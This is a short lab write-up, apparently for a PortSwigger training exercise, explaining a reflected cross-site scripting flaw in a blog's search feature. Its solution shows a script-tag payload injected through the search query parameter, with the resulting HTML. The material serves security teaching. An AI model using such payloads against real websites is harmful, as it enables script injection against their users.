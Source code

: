 # 1 - Reflected Nothing Encoded

This lab contains a simple [reflected cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability in the search functionality.

### Notes

The application's search feature echoes the user's search query back to them in the `h1` tag of the `.blog-header` section:

```http
GET /?search=foobar HTTP/1.1
```

```html
<section class=blog-header>
    <h1>0 search results for 'foobar'</h1>
    <hr>
</section>
```

### Solution

Because this user-supplied input is not properly escaped, we can execute an XSS simply by supplying JavaScript in the `search` query parameter:

```http
GET /?search=<script>alert()</script> HTTP/1.1
```

```html
<section class=blog-header>
    <h1>0 search results for '<script>alert()</script>'</h1>
    <hr>
</section>
```
